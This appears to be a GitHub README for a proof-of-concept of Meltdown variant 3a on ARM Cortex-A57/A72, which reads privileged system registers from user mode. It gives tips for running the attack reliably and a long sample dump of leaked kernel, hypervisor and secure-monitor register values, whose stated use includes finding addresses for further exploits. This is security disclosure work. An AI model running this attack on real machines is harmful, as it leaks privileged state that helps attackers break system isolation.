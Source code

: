 PoC code implementing variant 3a of the Meltdown attack for AArch64. This allows reading all (potentially excluding registers whose read has side effects - not verified) system registers from user mode, including those which should only be accessible from the EL1 (kernel), EL2 (hypervisor) and EL3 (secure monitor) modes.

See the [ARM whitepaper](https://developer.arm.com/support/security-update) and the [Meltdown vulnerability](https://spectreattack.com/).

Confirmed to be working on Cortex-A57 and Cortex-A72.


Impact
------

Infoleaks of potentially sensitive data from the OS, hypervisor or secure monitor. No cryptographic keys or user data are expected to be exposed in most cases. So far, I've identified 3 potentially interesting uses for this:

1) confirming the presence of a hypervisor and/or secure monitor on the machine
2) detecting the use of hardware debugging or profiling tools
3) obtaining valid addresses of software running in EL1-EL3 (from the registers containing pointers to the page tables, the exception vector, etc) - potentially useful in developing or deploying exploits for other vulnerabilities in this software


Running it
----------

The access timing is done using a second thread which increments a counter, which means that at least 2 cores need to be online and (close to) idle. DVFS might have to be disabled. In a big.LITTLE system, pin this process to the big cores. Cortex-A57 and Cortex-A72 are the only AArch64-capable cores designed by ARM which are vulnerable (to this variant of Meltdown). Note that bit-level errors are possible, although they should be rare.


Sample output
-------------

The registers marked *dynamic* denote the registers which do not appear to have a constant value during the sampling process. In the sample below, these are the *Generic Timer* registers (CNT\*) and the *Interrupt Status Register* (ISR_EL1).

```
$ ./dump_sys_regs
ACTLR_EL1           : 0x0 
ACTLR_EL2           : 0x73 
ACTLR_EL3           : 0x73 
AIDR_EL1            : 0x0 
AFSR0_EL1           : 0x0 
AFSR0_EL2           : 0x0 
AFSR0_EL3           : 0x0 
AFSR1_EL1           : 0x0 
AFSR1_EL2           : 0x0 
AFSR1_EL3           : 0x0 
AMAIR_EL1           : 0x0 
AMAIR_EL2           : 0x0 
AMAIR_EL3           : 0x0 
CCSIDR_EL1          : 0x70ffe07a 
CLIDR_EL1           : 0xa200023 
CPACR_EL1           : 0x300000 
CPTR_EL2            : 0x33ff 
CPTR_EL3            : 0x0 
CSSELR_EL1          : 0x2 
CTR_EL0             : 0x8444c004 
DISR_EL1            : 0x0 
ERRIDR_EL1          : 0x0 
ERRSELR_EL1         : 0x0 
ERXADDR_EL1         : 0x0 
ERXCTLR_EL1         : 0x0 
ERXFR_EL1           : 0x0 
ERXMISC0_EL1        : 0x0 
ERXMISC1_EL1        : 0x0 
ERXSTATUS_EL1       : 0x0 
ESR_EL1             : 0x56000000 
ESR_EL2             : 0x0 
ESR_EL3             : 0x5e000000 
HACR_EL2            : 0x0 
HCR_EL2             : 0x80000000 
ID_AFR0_EL1         : 0x0 
ID_DFR0_EL1         : 0x3010066 
ID_ISAR0_EL1        : 0x2101110 
ID_ISAR1_EL1        : 0x13112111 
ID_ISAR2_EL1        : 0x21232042 
ID_ISAR3_EL1        : 0x1112131 
ID_ISAR4_EL1        : 0x11142 
ID_ISAR5_EL1        : 0x11121 
ID_ISAR6_EL1        : 0x0 
ID_MMFR0_EL1        : 0x10201105 
ID_MMFR1_EL1        : 0x40000000 
ID_MMFR2_EL1        : 0x1260000 
ID_MMFR3_EL1        : 0x2102211 
ID_MMFR4_EL1        : 0x0 
ID_PFR0_EL1         : 0x131 
ID_PFR1_EL1         : 0x11011 
ID_AA64DFR0_EL1     : 0x10305106 
ID_AA64ISAR0_EL1    : 0x11120 
ID_AA64ISAR1_EL1    : 0x0 
ID_AA64MMFR0_EL1    : 0x1124 
ID_AA64MMFR1_EL1    : 0x0 
ID_AA64MMFR2_EL1    : 0x0 
ID_AA64PFR0_EL1     : 0x2222 
IFSR32_EL2          : 0x0 
LORC_EL1            : 0x0 
LORID_EL1           : 0x0 
LORN_EL1            : 0x0 
MDCR_EL3            : 0x0 
MIDR_EL1            : 0x411fd073 
MPIDR_EL1           : 0x80000103 
PAR_EL1             : 0x7f99305000 
RVBAR_EL3           : 0xf6000000 
REVIDR_EL1          : 0x0 
SCTLR_EL1           : 0x34d5d91d 
SCTLR_EL3           : 0xcd183f 
TCR_EL1             : 0x34b5193519 
TCR_EL2             : 0x80800000 
TCR_EL3             : 0x8080351d 
TTBR0_EL1           : 0xf89f0000d4454000 
TTBR0_EL2           : 0x0 
TTBR0_EL3           : 0x30010b00 
TTBR1_EL1           : 0x8133f000 
TTBR1_EL2           : 0x0 
VDISR_EL2           : 0x0 
VSESR_EL2           : 0x0 
VTCR_EL2            : 0x80000000 
VTTBR_EL2           : 0x0 
AFSR0_EL12          : 0x0 
AFSR1_EL12          : 0x0 
AMAIR_EL12          : 0x0 
CNTFRQ_EL0          : 0x1dcd650 
CNTHCTL_EL2         : 0x3 
CNTHP_CTL_EL2       : 0x0 
CNTHP_CVAL_EL2      : 0x0 
CNTHP_TVAL_EL2      : 0x65a29ee7 (dynamic?)
CNTHV_CTL_EL2       : 0x0 
CNTHV_CVAL_EL2      : 0x0 
CNTHV_TVAL_EL2      : 0x0 
CNTKCTL_EL1         : 0xc6 
CNTKCTL_EL12        : 0x0 
CNTP_CTL_EL0        : 0x0 
CNTP_CTL_EL02       : 0x0 
CNTP_CVAL_EL0       : 0x12878de2 
CNTP_CVAL_EL02      : 0x0 
CNTP_TVAL_EL0       : 0x7801a980 (dynamic?)
CNTP_TVAL_EL02      : 0x0 
CNTPCT_EL0          : 0x162db9aa576c0 (dynamic?)
CNTPS_CTL_EL1       : 0x0 
CNTPS_CVAL_EL1      : 0x0 
CNTPS_TVAL_EL1      : 0x6539bd20 (dynamic?)
CNTV_CTL_EL0        : 0x0 
CNTV_CTL_EL02       : 0x0 
CNTV_CVAL_EL0       : 0x0 
CNTV_CVAL_EL02      : 0x0 
CNTV_TVAL_EL0       : 0x6516d1c0 (dynamic?)
CNTV_TVAL_EL02      : 0x0 
CNTVCT_EL0          : 0x162db9b090480 (dynamic?)
CNTVOFF_EL2         : 0x0 
CONTEXTIDR_EL1      : 0x0 
CONTEXTIDR_EL12     : 0x0 
CONTEXTIDR_EL2      : 0x0 
CPACR_EL12          : 0x0 
CPTR_EL3            : 0x0 
DACR32_EL2          : 0x0 
ESR_EL12            : 0x0 
FAR_EL1             : 0x0 
FAR_EL12            : 0x0 
FAR_EL2             : 0x0 
FAR_EL3             : 0x0 
FPEXC32_EL2         : 0x7f99305000 
HPFAR_EL2           : 0x0 
HSTR_EL2            : 0x0 
ID_AA64AFR0_EL1     : 0x0 
ID_AA64AFR1_EL1     : 0x0 
ID_AA64DFR1_EL1     : 0x0 
ID_AA64PFR1_EL1     : 0x0 
ISR_EL1             : 0x0 (dynamic?)
LOREA_EL1           : 0x0 
LORSA_EL1           : 0x0 
MAIR_EL1            : 0xbbff440c0400 
MAIR_EL12           : 0x0 
MAIR_EL2            : 0x0 
MAIR_EL3            : 0x4404ff 
MDCR_EL2            : 0x6 
MVFR0_EL1           : 0x10110222 
MVFR1_EL1           : 0x12111111 
MVFR2_EL1           : 0x43 
RMR_EL3             : 0x1 
SCR_EL3             : 0x535 
SCTLR_EL12          : 0x0 
SCTLR_EL2           : 0x30c50830 
SDER32_EL3          : 0x0 
TCR_EL12            : 0x0 
TPIDR_EL0           : 0x7f993066f0 
TPIDR_EL1           : 0x1fed81000 
TPIDR_EL2           : 0x0 
TPIDR_EL3           : 0x30010f80 
TPIDRRO_EL0         : 0x0 
TTBR0_EL12          : 0x0 
TTBR1_EL12          : 0x0 
VBAR_EL1            : 0xffffffc000083800 
VBAR_EL12           : 0x0 
VBAR_EL2            : 0x8008a000 
VBAR_EL3            : 0x3000a800 
VMPIDR_EL2          : 0x80000103 
VPIDR_EL2           : 0x411fd073
```
